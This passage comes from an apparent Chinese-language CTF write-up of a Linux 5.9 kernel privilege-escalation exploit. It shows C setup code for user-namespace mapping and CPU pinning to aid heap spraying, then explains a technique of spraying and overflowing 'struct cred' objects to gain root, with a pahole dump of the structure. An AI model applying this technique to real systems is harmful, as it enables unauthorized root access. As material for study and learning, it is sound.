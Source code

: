 ```c
        if (!write_file("/proc/self/setgroups", "deny")) {
                perror("[-] write_file(/proc/self/set_groups)");
                exit(EXIT_FAILURE);
        }
        if (!write_file("/proc/self/uid_map", "0 %d 1\n", real_uid)){
                perror("[-] write_file(/proc/self/uid_map)");
                exit(EXIT_FAILURE);
        }
        if (!write_file("/proc/self/gid_map", "0 %d 1\n", real_gid)) {
                perror("[-] write_file(/proc/self/gid_map)");
                exit(EXIT_FAILURE);
        }

        //将进程绑定到cpu0，主要是为了让之后分配的slub
        //在一个__per_cpu_offset内便于之后进行堆喷
        cpu_set_t my_set;
        CPU_ZERO(&my_set);
        CPU_SET(0, &my_set);
        if (sched_setaffinity(0, sizeof(my_set), &my_set) != 0) {
                perror("[-] sched_setaffinity()");
                exit(EXIT_FAILURE);
        }

        if (system("/sbin/ifconfig lo up") != 0) {
                perror("[-] system(/sbin/ifconfig lo up)");
                exit(EXIT_FAILURE);
        }
}
```

### spray cred  

由于本题是在kernel 5.9内，原poc无论是泄露KASLR还是后续利用的方法在当前内核版本均不能使用（之后的章节会进行详细阐述），并且本题环境中没有`/dev/ptmx`无法使用修改`tty_struct`劫持 ioctl 指针这种常规方法。经过尝试可以用spray cred结构后通过漏洞溢出修改cred结构体完成提权。

在创建进程时每个进程都会将当前进程凭证存储在 `struct cred`结构体中，它通过`kmalloc`分配空间，`kmalloc`底层通过`slab allocator`进行分配，而为了提升性能减少重复的申请和释放，会用多个`slab`组成一个对应特定大小的缓存，在释放操作时并不会真正的释放，而是放入缓存修改成未使用状态，等下一次有相同大小的内存申请时直接从缓存返回，而不需要再次真正的申请物理内存，大小为`2^n`。kernel 5.9中的大小为168。

```bash
ivan@ubuntu:~/kernel/linux-5.9-patched$ pahole -C cred ./vmlinux
die__process_function: tag not supported (INVALID)!
struct cred {
	atomic_t                   usage;                /*     0     4 */
	kuid_t                     uid;                  /*     4     4 */
	kgid_t                     gid;                  /*     8     4 */
	kuid_t                     suid;                 /*    12     4 */
	kgid_t                     sgid;                 /*    16     4 */
	kuid_t                     euid;                 /*    20     4 */
	kgid_t                     egid;                 /*    24     4 */
	kuid_t                     fsuid;                /*    28     4 */
	kgid_t                     fsgid;                /*    32     4 */
	unsigned int               securebits;           /*    36     4 */
	kernel_cap_t               cap_inheritable;      /*    40     8 */
	kernel_cap_t               cap_permitted;        /*    48     8 */
	kernel_cap_t               cap_effective;        /*    56     8 */
	/* --- cacheline 1 boundary (64 bytes) --- */
	kernel_cap_t               cap_bset;             /*    64     8 */
	kernel_cap_t               cap_ambient;          /*    72     8 */
	unsigned char              jit_keyring;          /*    80     1 */

	/* XXX 7 bytes hole, try to pack */

	struct key *               session_keyring;      /*    88     8 */
```